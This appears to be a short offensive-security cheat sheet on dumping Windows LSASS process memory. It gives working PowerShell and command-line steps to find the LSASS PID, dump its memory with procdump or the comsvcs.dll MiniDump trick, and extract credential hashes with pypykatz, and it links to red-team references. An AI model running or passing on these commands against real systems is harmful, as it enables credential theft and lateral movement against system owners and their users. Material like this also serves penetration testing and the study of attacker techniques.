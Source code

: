 # Dump LSASS Memory

The LSASS memory may contain sensitive information, so we want to dump it.

## 1. Find the LSASS PID

```powershell
tasklist | findstr "lsass"
# or
Get-Process | findstr "lsass"
```

## 2. Dump LSASS Memory

- Using `procdump`

    ```powershell
    procdump.exe -accepteula -ma lsass.exe lsass.dmp
    ```

- Using `comsvcs.dll`

    ```powershell
    # Replace `1234` with actual PID
    rundll32 C:\Windows\System32\comsvcs.dll,MiniDump 1234 C:\Users\<user>\Desktop\lsass.dmp full
    ```

## 3. Dump Hashes from LSASS Memory

- Using `pypykatz`

    ```sh
    pypykatz lsa minidump lsass.dmp
    ```

## Resources

- [Dump Credentials from Lsass Process Without Mimikatz by Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz)
- [LSASS Secrets by The Hacker Recipes](https://www.thehacker.recipes/ad/movement/credentials/dumping/lsass)